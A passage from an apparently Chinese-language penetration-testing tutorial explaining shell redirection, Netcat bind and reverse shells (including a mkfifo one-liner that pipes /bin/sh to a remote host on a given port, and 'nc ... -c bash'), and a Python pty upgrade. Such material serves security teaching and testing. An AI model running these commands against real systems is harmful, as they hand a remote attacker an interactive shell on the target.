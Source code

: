 2>&1，2 是错误输出，>& 是错误输出重定向，1 是标准输出，连起来是将错误内容输出重定向到标准输出里。

#### 2.2.2 Netcat

Server 监听 将 /bin/sh 传输到

```plaintext
nc -lvp <Port> -e /bin/sh
```

Client 连接到目标端口即可拿到 Shell

```plaintext
nc <IP> <Port>
```

nc 没有 -e 参数如何反弹。

```plaintext
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP> <Port> > /tmp/f
```

详见 [Netcat - raingray Blog](https://www.raingray.com/archives/438.html#%E8%BF%9C%E7%A8%8B%E6%8E%A7%E5%88%B6) 一文

> Server 监听 333 端口，用 -c 把 shell 传过去，`-c` 是使用 shell。
> 
> ```plaintext
> nc -lp 333 -c bash
> ```
> 
> Client nc 连接到 Server 333 端口，由于服务端把 shell 传过来了，客户端就拥有执行命令的权限，权限多大的具体看用户。
> 
> ```plaintext
> nc 172.28.112.34 333
> ```
> 
> 另外还有种用法是客户端监听 333 端口（测试者开放端口等待服务端连接）。
> 
> ```plaintext
> nc -lp 333
> ```
> 
> 服务端连连接 333 端口把自己的 shell 传给客户端。得到目标系统 shell 后可以利用这种方法把目标系统 shell 传给测试者（让服务器主动连接测试者）。
> 
> ```plaintext
> B(server)：nc 172.28.112.34 333 -c bash
> ```
> 
> 注：如果是 Windows 请把 shell 换成 cmd。

#### 2.2.3 Python

通过 Python 获取 pty 终端，不太好用但相比 Bash 反弹的 Shell 来说好多了。

```python
python -c "import pty;pty.spawn('/bin/bash')"
```
